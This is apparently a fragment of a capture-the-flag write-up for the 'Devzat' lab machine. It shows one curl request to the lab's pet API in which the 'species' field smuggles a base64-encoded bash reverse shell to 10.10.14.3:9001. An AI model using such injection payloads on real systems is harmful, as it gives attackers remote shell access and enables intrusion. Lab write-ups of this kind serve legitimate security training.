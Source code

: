     `curl -X POST -d '{"name":"Test pet","species":"dog;echo
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzkwMDEgMD4mMSAK|base64 -
    d|bash","characteristics":"corgi"}' -H "'Content-Type': 'application/json'"
    "[http://pets.devzat.htb/api/pet](http://pets.devzat.htb/api/pet)"`
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2084.png)
